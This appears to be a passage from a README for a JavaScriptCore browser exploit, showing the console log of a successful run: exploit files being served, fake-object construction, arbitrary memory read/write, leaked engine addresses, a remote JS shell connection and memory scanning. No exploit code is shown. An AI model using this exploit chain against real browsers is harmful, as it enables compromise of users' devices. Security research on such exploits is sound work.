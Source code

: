 A successful run of the exploit should look like this:

    Server listening on 0.0.0.0:8000
    [HTTP] Serving file ./index.html
    [HTTP] Serving file ./env.js
    [HTTP] Serving file ./utils.js
    [HTTP] Serving file ./pwn.js
    [HTTP] Serving file ./logging.js
    [HTTP] Serving file ./offsets.js
    [HTTP] Serving file ./ready.js
    [HTTP] Serving file ./empty.js
    [LOG] Remote JS logging connection establised
    [LOG] [*] Running in browser environment
    [LOG] [*] Fake JSArray @ 0x0000000109208250
    [LOG] [*] Copied legit JSCell header: 0x010822070000d524
    [LOG] [+] Achieved limited arbitrary read/write \o/
    [LOG] [*] JSGlobalObject @ 0x0000000101351aa8
    [LOG] [*] GlobalObject @ 0x0000000107334068
    [LOG] [*] VM @ 0x0000000102e09000
    [LOG] [*] VM.topCallFrame @ 0x0000000102e129c0
    [LOG] [*] Top CallFrame (stack) @ 0x000000016fb5df10
    [LOG] [*] Constructing arbitray read/write by abusing TypedArray @ 0x00000002811f4000
    [LOG] [+] Got stable arbitrary memory read/write!
    [LOG] [+] Executable instance @ 0x000000010731fdc0
    [LOG] [+] JSC base @ 0x00000001a76cc000
    [LOG] [*] Exception handler list @ 0x00000001e5f7c0b0 is now a cycle, segv handler will loop until it is fixed
    [HTTP] Serving file ./worker.js
    [WSSH] Remote JS shell establised
    [LOG] Remote JS logging connection establised
    [LOG] [+] Scratch buffer @ 0x0000000281150000
    [LOG] [*] Worker TypedArray @ 0x000000010bf1b398
    [LOG] [*] Worker TypedArray Buffer @ 0x005d490281200000
    [LOG] [*] Searching for 2809084408 starting at 0x000000016fb64000
    [LOG] [*] Reading 0x000000016fb64000 - 0x000000016fb68000
    [LOG] [*] Reading 0x000000016fb68000 - 0x000000016fb6c000
    [LOG] [*] Reading 0x000000016fb6c000 - 0x000000016fb70000
    [LOG] [*] Reading 0x000000016fb70000 - 0x000000016fb74000
    [LOG] [*] Reading 0x000000016fb74000 - 0x000000016fb78000
    [LOG] [*] Reading 0x000000016fb78000 - 0x000000016fb7c000
    [LOG] [*] Reading 0x000000016fb7c000 - 0x000000016fb80000
    [LOG] [*] Reading 0x000000016fb80000 - 0x000000016fb84000
    [LOG] [*] Reading 0x000000016fb84000 - 0x000000016fb88000
    [LOG] [*] Reading 0x000000016fb88000 - 0x000000016fb8c000
    [LOG] [*] Reading 0x000000016fb8c000 - 0x000000016fb90000
    [LOG] [*] Reading 0x000000016fb90000 - 0x000000016fb94000
    [LOG] [*] Reading 0x000000016fb94000 - 0x000000016fb98000
    [LOG] [*] Reading 0x000000016fb98000 - 0x000000016fb9c000
    [LOG] [*] Reading 0x000000016fb9c000 - 0x000000016fba0000
    [LOG] [*] Reading 0x000000016fba0000 - 0x000000016fba4000
    [LOG] [*] Reading 0x000000016fba4000 - 0x000000016fba8000
    [LOG] [*] Reading 0x000000016fba8000 - 0x000000016fbac000
    [LOG] [*] Reading 0x000000016fbac000 - 0x000000016fbb0000
    [LOG] [*] Reading 0x000000016fbb0000 - 0x000000016fbb4000
    [LOG] [*] Reading 0x000000016fbb4000 - 0x000000016fbb8000
    [LOG] [*] Reading 0x000000016fbb8000 - 0x000000016fbbc000
    [LOG] [*] Reading 0x000000016fbbc000 - 0x000000016fbc0000
    [LOG] [*] Reading 0x000000016fbc0000 - 0x000000016fbc4000
    [LOG] [*] Reading 0x000000016fbc4000 - 0x000000016fbc8000
    [LOG] [*] Reading 0x000000016fbc8000 - 0x000000016fbcc000
    [LOG] [*] Reading 0x000000016fbcc000 - 0x000000016fbd0000
    [LOG] [*] Reading 0x000000016fbd0000 - 0x000000016fbd4000
    [LOG] [*] Reading 0x000000016fbd4000 - 0x000000016fbd8000
    [LOG] [*] Reading 0x000000016fbd8000 - 0x000000016fbdc000
